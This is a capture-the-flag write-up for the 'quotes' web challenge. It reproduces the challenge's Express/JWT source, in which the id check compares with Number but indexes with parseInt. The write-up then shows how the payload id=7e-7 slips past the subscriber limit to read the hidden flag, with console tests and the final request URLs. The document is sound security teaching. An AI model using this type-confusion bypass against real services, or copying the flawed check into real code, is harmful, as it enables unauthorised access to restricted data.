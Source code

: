 ## quotes [100 pts]

**Category:** Web
**Solves:** 106

## Description
I'm launching 🚀 my new ✨ SaaS providing quotes 📝 as an API 💪!

quotes.challs.pwnoh.io/quote

### Solution

Checking the source code, we see that there are following functionallities in the application:

- register user and set the cookie in /register route
- fetch quote data by sending query param id (the server will fetch quote based on id received from quote file)

here is the code provided to us:
```javascript
import express from "express";
import jwt from "jsonwebtoken";
import path from "path";
import fs from "fs";

const SECRET_KEY = process.env.SECRET_KEY || "secret";
const COOKIE_NAME = "quotes-auth";

const FREE_TIER_QUOTE_LIMIT = 5;

const app = express();

app.get("/quote", (req, res) => {
  const { id, random } = req.query;
  const { cookie } = req.headers;

  if (!cookie) {
    res.status(401);
    res.send({ error: "Not authenticated" });
    return;
  }

  const cookies = cookie.split(";").reduce((acc, cookie) => {
    const [key, value] = cookie.split("=").map((c) => c.trim());
    acc[key] = value;
    return acc;
  }, {});

  const cookieToken = cookies[COOKIE_NAME];

  if (!cookieToken) {
    res.status(401);
    res.send({ error: "Not authenticated" });
    return;
  }

  let decoded;
  try {
    decoded = jwt.verify(cookieToken, SECRET_KEY);
  } catch (e) {
    res.status(403);
    res.send({ error: "Invalid token" });
    return;
  }

  const filepath = path.resolve("./quotes");
  const quotes = fs.readFileSync(filepath, "utf-8").split("\n");

  if (random && random === "true") {
    const i = Math.floor(Math.random() * FREE_TIER_QUOTE_LIMIT);

    if (!decoded.subscribed && i >= FREE_TIER_QUOTE_LIMIT) {
      res.status(500);
      res.send({ error: "Not a paying subscriber" });
      return;
    }

    const quote = quotes[i];

    res.status(200);
    res.send({ quote, id: i });
    return;
  }

  if (id) {
    const i = Number(id);

    if (!decoded.subscribed && i >= FREE_TIER_QUOTE_LIMIT) {
      res.status(500);
      res.send({ error: "Not a paying subscriber" });
      return;
    }

    if (i < 0 || i >= quotes.length) {
      res.status(500);
      res.send({ error: "Invalid quote ID" });
      return;
    }

    const quote = quotes[parseInt(i)];

    res.status(200);
    res.send({ quote, id: i });
    return;
  }

  res.status(500);
  res.send({ error: "Unable to get quote" });
});

app.get("/register", (req, res) => {
  const token = jwt.sign(
    {
      subscribed: false,
    },
    SECRET_KEY,
    { expiresIn: "1h" }
  );

  res.cookie(COOKIE_NAME, token, {
    httpOnly: true,
    secure: true,
    maxAge: 3600000,
  });
  res.status(200);
  res.send({ message: "Signed in!" });
});

app.listen(process.env.PORT || 3000);

```

and there is quotes file with below content:
```
If you know the enemy, and know yourself, you need not fear the result of a hundred battles. - Sun Tzu, The Art of War
The opportunity of defeating the enemy is provided by the enemy himself. - Sun Tzu, The Art of War
Be extremely subtle, even to the point of formlessness. - Sun Tzu, The Art of War
Whatever you do, don't reveal all your techniques in a YouTube video, you fool, you moron. - Sun Tzu, The Art of War
Let your plans be dark and impenetrable as night, and when you move, fall like a thunderbolt. - Sun Tzu, The Art of War
All war is deception - Sun Tzu, The Art of War
All men can see the tactics whereby I conquer, but what none can see is the strategy out of which victory is evolved. - Sun Tzu, The Art of War
bctf{fake_flag}
```

The flag is in index id=7. so if are able to read `quotes[7]`, will get the flag.

And as you can see two ideas to solve challenge exists:

1- break jwt and set subscribed value in jwt to be able to send id=7 and read the quote that contains the flag
2- bypass id resitrictions and get to the part we are able to send 7 and read the flag.


I spent a lot of time on solution 1, and tried to brute-force, try to find exploits in jwt of server and .., but none works.
After ctf i find out that the key was to bypass the id filtering using some techniques which i will tell later.

The part that is important for us is:
```javascript
const i = Number(id);

if (!decoded.subscribed && i >= FREE_TIER_QUOTE_LIMIT) {
  res.status(500);
  res.send({ error: "Not a paying subscriber" });
  return;
}

if (i < 0 || i >= quotes.length) {
  res.status(500);
  res.send({ error: "Invalid quote ID" });
  return;
}

const quote = quotes[parseInt(i)];

res.status(200);
res.send({ quote, id: i });
return;
```

first the id is passed to `Number` method, then using `parseInt` it passed to quotes.

for do the tests we just need to setup an env to test something. i opened a browser and in console section did some tests:

```javascript
Number(7e-1) > 0
true
Number(7e-1) < 6
true
```

as we can `7e-1` which is equal to `0.7` can bypass the first condition and get us to the `quotes[parseInt(i)]` section.

But the problem is:
```javascript
parseInt(7e-1)
0 
```

I tried some fuzzing and changed value from -1 to other values and noticed:
```javascript
parseInt(7e-1)
0
parseInt(7e-2)
0
parseInt(7e-3)
0
parseInt(7e-4)
0
parseInt(7e-5)
0
parseInt(7e-6)
0
parseInt(7e-7)
7
````

As you can see `7e-7` is parsed as 7 value.

requesting this value will give us the flag. 

- First check this link to get session in browser: `https://quotes.challs.pwnoh.io/register`

- Then checking this link will give us the flag: `https://quotes.challs.pwnoh.io/quote?id=7e-7`

